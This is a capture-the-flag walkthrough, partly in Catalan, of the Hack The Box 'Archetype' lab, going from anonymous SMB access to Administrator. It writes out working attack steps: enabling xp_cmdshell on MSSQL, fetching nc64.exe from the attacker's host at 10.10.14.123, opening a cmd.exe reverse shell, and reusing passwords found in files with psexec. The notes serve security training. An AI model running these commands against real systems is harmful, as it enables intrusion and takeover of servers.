 # Intro
| Dificulty | OS | Start Date | End Date | Help? |
|---|---|---|---|---|
| Very Easy | Windows | 26/05/2022 | 28/05/2022 | Yes |


# Thought process
1. Common enumeration
2. Check `smbclient`
3. Use `impacket`
4. 




# smbclient
> Check Samba Server from Linux
```bash
$ smbclient -N -L @Target_IP
```
[-N]: Suppresess the normal password prompt from the client to the user
[-L]: List what services are aviable

There's a folder call it "backups" that probably has more information.

> Access Samba folder
```bash
$ smbclient -N \\\\@Target_IP\\folder_name
```

`get file_name` To download file to our local machine.
[//]: The file is located in the directory from which the connection was established.

In these file we can see that there's a usrname:password.

```
ARCHETYPE\ sql_svc
M3g4c0rp123
```


# impacket
Collection of Python classes for working with network protocols. 
Impacket  is focused on providing low-level programmatic access to the packets and for some protocols. 

Download [Link](https://github.com/SecureAuthCorp/impacket)

> Connect to MSSQL
```bash
~/HTB/impacket/examples
└─$ python3 mssqlclient.py username@Target_IP -windows-auth
```
[-windows-auth]: Use Windows Authentication (Default False)


# MSSQL Server
Exploration Journey Link:
[Link 1](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server)
[Link 2](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)

First check what role does the user has `SELECT is_srvrolemember('sysadmin');`
[//]: 1 = True

We can set up command execution because the user has admin privileges.

>  Set up System Command Execution
```sql 
SQL> EXEC sp_configure 'show advanced options', 1; — priv  
SQL> RECONFIGURE; — priv 
SQL> sp_configure;
SQL> EXEC sp_configure 'xp_cmdshell', 1; — priv  
SQL> RECONFIGURE; — priv
```
[//]: Found in Link 2
[- priv]: Administrator privileges need it.

Now the server permits system commands.

> Test System Commands Execution
```SQL
SQL> xp_cmdshell "whoami"
```


# Reverse Shell
Now, attempt to get stable reverse shell. 
Use `nc64.exe` to execute interactive `cmd.exe` process on our listening port.


# Archetype


!! Com que ja podem executar commandes, intentarem executar una reverse shell. (nc64.exe)

> Escoltar port 80 local (Python)
```bash
$ sudo python3 -m http.server 80
```

> Escoltar port 80 local (netcat)
```bash
$ sudo nc -lvnp 443
```

?¿ Quina és la diferencia

> Saber directori del server
```sql
SQL> xp_cmdshell "powershell -c pwd";
```


En aquest directori no hi ha permisos d'execucció per l'usuari sql_svc així que haurem d'utilitzar el alguna ruta del seu directori.
Després fem la petició de la reverse shell que tenim en local.

> Canvi de directori i Reverse Shell
```sql
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.123/nc64.exe -outfile nc64.exe"
```

Podrem observar que el python que tenim escoltant al port 80 ha rebut una petició de GET.

> Solicitar cmd com a reverse shell al Local
```sql
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.123 443"
```

El netcat ja haurà rebut la petició de la reverse shell al port 443

![[Pasted image 20220528174933.png]]


Busquem la flag en el sistema i amb un `more` llegim el contingut

---

# Privilegie Escalation
Utilitzarem l'eina WinPeas. Primer descarreguem en local i despres la solicitem desde la màquina. 
(Continuar fent escolta en el port 80 amb python)
[Link descarrega](https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe)

Executar escolta en port 80 desde l'ubicació on està el winPEAS. Fer `wget` de l'arxiu

```powershell
wget http://10.10.14.123/winPEASx64.exe -outfile winPEASx64.exe
```
[//]: S'ha d'estar en un directori on l'usuari tingui permissos.

Executem el binari utilitzant la reverse shell
```powershell
.\winPEASx64.exe
```

Podem observat que hi ha `SeImpersonatePrivilege` [Link](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege) i aquest es vulnerable a "[juicy potato exploit](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato)". Però abans mirem si hi ha arxius que puguin contindre passwords.

Com que 'sql_svc' es un usuari normal, podem mirar el equivalent al '.bashrc' de powershell.
```powershell
cd C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline
```

El fitxer conté la contrasenya de administrador.
administrator:MEGACORP_4dm1n!!

Ara podem executar `psexec.py` desde impacket per tenir una shell com Administrador.

```bash
$ python3 psexec.py administrator@Target_IP
```
![[Pasted image 20220528174919.png]]
La root flag es troba en el desktop de l'usuari










